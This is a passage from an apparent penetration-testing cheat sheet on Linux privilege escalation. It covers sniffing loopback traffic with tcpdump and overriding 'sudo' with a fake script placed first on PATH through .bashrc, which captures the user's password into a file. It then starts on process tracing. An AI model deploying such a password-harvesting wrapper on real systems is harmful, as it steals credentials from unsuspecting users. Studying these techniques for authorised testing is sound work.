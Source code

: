 ### Dump Information

If some process (like ping) is running as root, you may be able to capture the interesting information using tcpdump.

```sh
# -i lo: specify interface (lo: loopback address, localhost)
# -A: print each packet in ASCII
tcpdump -i lo -A
```

### Override Command

If some command is executed in processes as our current user, we can override the command to our arbitrary command.  
Assume **`sudo cat /etc/shadow`** command is executed in the process.  
**`sudo`** command asks the password of the current user. So if we don't have the current user's password yet, worth getting the password.

To do so, we can create the fake **`sudo`** command under the current user’s home directory.

```bash
mkdir /home/<user>/bin
touch /home/<user>/bin/sudo
chmod +x /home/<user>/bin/sudo
```

Then insert a payload in **`/home/<user>/bin/sudo`**.  
This **`sudo`** command reads the value of the password in prompt and write the value to **“password.txt”**.

```bash
#!/bin/bash

read password
echo $password >> /home/<user>/password.txt
```

In addition, we need to export the **`/home/<user>/bin`** to the PATH on the top of the **`/home/<user>/.bashrc`**.

```bash
export PATH=/home/<user>/bin:$PATH
```

Wait a while, we should see the **“password.txt”** is created.

```bash
cat password.txt
```

Now we get the current user password.

<br />

## Process Tracing

Sometimes we can retrieve the sensitive information by reading sequential processes with `stract`.
